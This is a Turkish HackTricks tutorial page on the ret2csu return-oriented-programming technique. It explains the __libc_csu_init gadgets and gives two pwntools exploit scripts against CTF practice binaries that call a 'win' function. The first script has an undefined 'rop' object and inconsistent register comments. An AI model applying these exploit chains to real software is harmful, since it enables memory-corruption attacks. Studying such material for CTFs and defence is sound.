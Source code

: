 # Ret2csu

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)Temel Bilgiler

**ret2csu**, bir programın kontrolünü almaya çalışırken, genellikle programın davranışını manipüle etmek için kullandığınız **gadgets**'ları bulamadığınızda kullanılan bir hacking tekniğidir.

Bir program belirli kütüphaneleri (libc gibi) kullandığında, programın farklı parçalarının birbirleriyle nasıl iletişim kuracağını yönetmek için bazı yerleşik işlevlere sahiptir. Bu işlevler arasında, özellikle `__libc_csu_init` adı verilen kaybolan gadgets'larımız olarak hareket edebilecek bazı gizli mücevherler bulunmaktadır.

### \_\_libc\_csu\_init İçindeki Sihirli Gadgets

**`__libc_csu_init`** içinde vurgulanması gereken iki talimat dizisi (gadget) bulunmaktadır:

1. İlk dizi, birkaç kaydın (rbx, rbp, r12, r13, r14, r15) değerlerini ayarlamamıza olanak tanır. Bunlar, daha sonra kullanmak istediğimiz sayıları veya adresleri depolayabileceğimiz slotlar gibidir.
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
Bu alet, yığın üzerindeki değerleri bu kayıtlara alarak kontrol etmemizi sağlar.

2. İkinci dizilim, ayarladığımız değerleri kullanarak birkaç şey yapar:
* **Belirli değerleri diğer kayıtlara taşıyarak**, bunları fonksiyonlarda parametre olarak kullanmaya hazır hale getirir.
* **r15 ve rbx'deki değerleri toplayarak** belirlenen bir konuma çağrı yapar, ardından rbx'i 8 ile çarpar.
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```
3. Belki oraya yazmak için herhangi bir adres bilmiyorsunuz ve **bir `ret` talimatına** ihtiyacınız var. İkinci gadget'ın da **bir `ret` ile biteceğini** unutmayın, ancak ona ulaşmak için bazı **koşulları** karşılamanız gerekecek:
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```
Koşullar şunlardır:

* `[r12 + rbx*8]` çağrılabilir bir fonksiyonu depolayan bir adrese işaret etmelidir (eğer bir fikriniz yoksa ve pie yoksa, sadece `_init` fonksiyonunu kullanabilirsiniz):
* Eğer \_init `0x400560` adresindeyse, GEF kullanarak bellekte ona işaret eden bir işaretçi arayın ve `[r12 + rbx*8]`'in \_init'e işaret eden adres olmasını sağlayın:
```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
* `rbp` ve `rbx` aynı değere sahip olmalıdır, atlamayı önlemek için
* Dikkate almanız gereken bazı atlanan pops var

## RDI ve RSI

**`rdi`** ve **`rsi`**'yi ret2csu gadget'ından kontrol etmenin bir başka yolu, belirli ofsetlere erişmektir:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

Daha fazla bilgi için bu sayfayı kontrol edin:

{% content-ref url="brop-blind-return-oriented-programming.md" %}
[brop-blind-return-oriented-programming.md](brop-blind-return-oriented-programming.md)
{% endcontent-ref %}

## Örnek

### Çağrıyı Kullanma

Bir syscall yapmak veya `write()` gibi bir fonksiyonu çağırmak istediğinizi hayal edin, ancak `rdx` ve `rsi` kayıtlarında belirli değerlere ihtiyacınız var. Normalde, bu kayıtları doğrudan ayarlayan gadget'lar ararsınız, ancak bulamazsınız.

Burada **ret2csu** devreye giriyor:

1. **Kayıtları Ayarlayın**: İlk sihirli gadget'ı kullanarak yığın üzerindeki değerleri rbx, rbp, r12 (edi), r13 (rsi), r14 (rdx) ve r15'e pop edin.
2. **İkinci Gadget'ı Kullanın**: Bu kayıtlar ayarlandığında, ikinci gadget'ı kullanırsınız. Bu, seçtiğiniz değerleri `rdx` ve `rsi`'ye (sırasıyla r14 ve r13'ten) taşımanıza olanak tanır ve bir fonksiyon çağrısı için parametreleri hazırlar. Ayrıca, `r15` ve `rbx`'yi kontrol ederek, programın hesapladığınız adreste bulunan bir fonksiyonu çağırmasını sağlayabilirsiniz ve bunu `[r15 + rbx*8]` içine yerleştirebilirsiniz.

Bu tekniği kullanan ve burada açıklayan bir [**örneğiniz var**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation) ve bu, kullanılan son istismar:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
Not edin ki önceki exploit bir **`RCE`** gerçekleştirmek için değil, sadece **`win`** adlı bir fonksiyonu çağırmak içindir (ROP zincirinde `win` adresini stdin'den alarak ve bunu r15'te saklayarak) ve üçüncü bir argüman olarak `0xdeadbeefcafed00d` değerini alır.
{% endhint %}

### Çağrıyı atlayarak ret'e ulaşma

Aşağıdaki exploit [**bu sayfadan**](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/ropemporium\_ret2csu/index.html) çıkarılmıştır; burada **ret2csu** kullanılıyor ancak çağrıyı kullanmak yerine, **karşılaştırmaları atlayarak ve çağrıdan sonra `ret`'e ulaşarak** işlem yapmaktadır:
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX

# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```
### Neden Sadece libc Kullanmayalım?

Genellikle bu durumlar da [**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/) ile savunmasızdır, ancak bazen libc'de doğrudan bulduğunuz gadget'larla kolayca kontrol edilebilecek parametrelerden daha fazlasını kontrol etmeniz gerekir. Örneğin, `write()` fonksiyonu üç parametre gerektirir ve **bunların hepsini doğrudan ayarlamak için gadget bulmak mümkün olmayabilir**.

